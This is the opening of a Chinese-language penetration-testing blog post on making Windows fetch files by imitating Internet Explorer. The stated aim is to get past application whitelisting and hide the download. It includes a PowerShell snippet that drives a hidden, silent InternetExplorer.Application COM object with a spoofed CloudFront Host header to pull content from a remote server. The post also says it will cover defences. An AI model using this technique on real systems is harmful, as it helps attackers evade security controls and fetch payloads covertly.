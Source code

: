 ```yaml
---
layout: post
title: 渗透技巧——模拟IE浏览器下载文件
---
```



## 0x00 前言
---

在之前的文章《从github下载文件的多种方法》介绍了通过cmd从github下载文件的多种方法，选出最短的实现代码(长度为25)。

本文将站在另一角度，介绍Windows系统下模拟IE浏览器实现文件下载的方法。

模拟IE浏览器实现文件下载不仅能够绕过白名单程序的拦截，而且能在一定程度上隐藏下载行为。所以本文将站在利用的角度介绍具体的利用方法，结合利用方法总结防御思路。

## 0x01 简介
---
本文将要介绍以下内容：

- 模拟IE浏览器实现文件下载的多种方法
- 分析优缺点
- 总结防御思路

## 0x02 实现方法
---

由于方法众多，所以本文做了一个简单分类,整体上分为主动和被动两种模式。
主动模式代表通过命令主动实现文件下载，被动模式代表劫持用户行为，在用户打开IE时实现文件下载
其中，主动模式也要做一个区分，分为当前后台进程是否有IE浏览器进程iexplore.exe

具体方法如下：

### 1、主动模式

#### (1) 后台无IE进程

**a) 调用IE COM对象**

参考链接：

https://adapt-and-attack.com/2017/12/19/internetexplorer-application-for-c2/

通过COM对象`InternetExplorer.Application`实现文件下载，后台进程为iexplore.exe

powershell代码如下：

```
$ie_com = New-Object -ComObject InternetExplorer.Application
$ie_com.Silent = $True
$ie_com.Visible = $False
$Headers = "Host: <SNIP>.cloudfront.net`r`n"
$ie_com.Navigate2("http://192.168.62.131/index.html", 14, 0, $Null, $Headers)
while($ie_com.busy -eq $true) {
    Start-Sleep -Milliseconds 100
}
$html = $ie_com.document.GetType().InvokeMember('body', [System.Reflection.BindingFlags]::GetProperty, $Null, $ie_com.document, $Null).InnerHtml
$html
$ie_com.Quit();
```
